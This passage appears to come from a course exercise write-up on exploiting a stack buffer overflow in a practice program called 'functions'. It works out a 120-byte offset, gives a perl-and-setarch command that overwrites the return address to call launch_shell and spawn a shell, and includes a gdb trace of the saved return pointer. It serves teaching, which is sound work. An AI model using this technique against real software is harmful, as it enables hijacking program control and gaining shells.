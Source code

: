 ```
rbp at 0x7fffffffdfd0, rip at 0x7fffffffdfd8
```
So we have overwritten the return pointer to `0x4646464645454545`, which is `FFFFEEEE` so before reaching the return pointer we had 108 A's, 4 B's, 4 C's, 4 D's = 108 + 4 + 4 + 4 = 120 characters.

#### Running the exploit
Finally, we know both the address (`0x5555555548e4`) and the offset (`120`), so we can do the exploit:
```
setarch $(uname -m) -R ./functions $(perl -e 'print "A"x120 . "\xe4\x48\x55\x55\x55\x55"')
```
We supply the address in `little-endian` format, which is how all values, including pointers are stored. The program launches a shell:
```
* [DEBUG] Your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�HUUUU
* [DEBUG] The function launch_shell is at 0x5555555548e4
Launching shell.
```



### A full gdb trace
We will use `gdb` to figure out how many bytes we need to write.
Carefully follow our steps (there are some comments inbetween) to see how we trace overwriting the return address.
The address of ``launch_shell`` is slightly different in this example, because it was written on a different computer.

```plaintext
$ gdb ./functions                                                                                      
Reading symbols from ./functions...
(gdb) break check_passphrase
Breakpoint 1 at 0x1199: file functions.c, line 10.
(gdb) run "$(perl -e 'print "A"x100')$(reverseaddr 0x5555555551e6)"
Starting program: /home/thom/git/teaching/hackinginc/2020/exercises/ass4/assignment4/functions "$(perl -e 'print "A"x100')$(reverseaddr 0x5555555551e6)"
* [DEBUG] Your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQUUUU
* [DEBUG] The function launch_shell is at 0x5555555551e6

Breakpoint 1, check_passphrase (passphrase=0x0) at functions.c:10
10      int check_passphrase(char* passphrase) {
(gdb) next
12        strcpy(buffer, passphrase);
(gdb) next
13        if(strcmp(passphrase, "the magic words are squeamish ossifrage") == 0)
(gdb) info frame
Stack level 0, frame at 0x7fffffffded0:
 rip = 0x5555555551ba in check_passphrase (functions.c:13); saved rip = 0x55555555528a
 called by frame at 0x7fffffffdef0
 source language c.
 Arglist at 0x7fffffffde38, args: passphrase=0x7fffffffe401 'A' <repeats 100 times>, "\346QUUUU"
 Locals at 0x7fffffffde38, Previous frame's sp is 0x7fffffffded0
 Saved registers:
  rip at 0x7fffffffdec8
(gdb) print "rip is not overwritten"
$1 = "rip is not overwritten"
(gdb) run "$(perl -e 'print "A"x108')$(reverseaddr 0x5555555551e6)"
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/thom/git/teaching/hackinginc/2020/exercises/ass4/assignment4/functions "$(perl -e 'print "A"x108')$(reverseaddr 0x5555555551e6)"
```